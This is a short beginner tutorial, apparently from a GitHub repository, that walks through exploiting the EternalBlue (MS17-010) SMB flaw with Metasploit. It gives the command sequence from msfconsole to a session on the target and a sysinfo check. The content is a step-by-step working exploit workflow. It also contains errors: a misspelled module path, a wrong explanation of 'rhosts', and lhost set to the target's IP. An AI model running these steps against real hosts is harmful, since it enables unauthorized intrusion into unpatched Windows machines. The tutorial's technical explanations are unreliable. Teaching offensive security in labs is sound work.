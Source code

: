 # Eternal blue exploit with metasploit
## by Austin Terranova



<dl>
    <dt>Purpose of tutorial:</dt>
    <dd>The purpose of this tutorial is to gain understanding of a simple exploit with metasplot. </dd>
</dl>

<dl>
    <dt>Target audience:</dt>
    <dd>The target audience for this tutorial would be a beginner student interested in the offensive side of cyber security</dd>
</dl>

<dl>
    <dt>Requirements:</dt>
    <dd>Windows 7 with metasploit installed</dd>
</dl>


The first thing to do is open up the command line on your PC and type the following command Which is used to which is used to load the metasploit framework
###### msfconsole


Once the metasploit framework is loaded we will use the command to search the metasploit framework for the exploit we want to use
###### search eternalblue
![alt text](1.png)
assuming our target is vulnerable to this exploit we will choose to use the exploit
###### use exploit/windows/smb/ms17_010_eternalbue

Next we will run the option command to view our current settings

###### options
We then set the rhosts the rhosts is a file that defines what remote hosts can use certain commands without a password for this you would use your targets IP address without the brackets
###### set rhosts [target_IP_address]
This is the IP address we want our listener to bind to 
###### set lhost [target_IP_address]
This is the port that we want our listener to bind to
###### set lport [4321]

![alt text](2.png)
now lets run our exploit to see if we were able to exploit the target IP
###### run
![alt text](3.png)
After you run the exploit to check and see if it worked you will run the sysinfo command which will be the information of the exploited machine
###### sysinfo
![alt text](4.png)
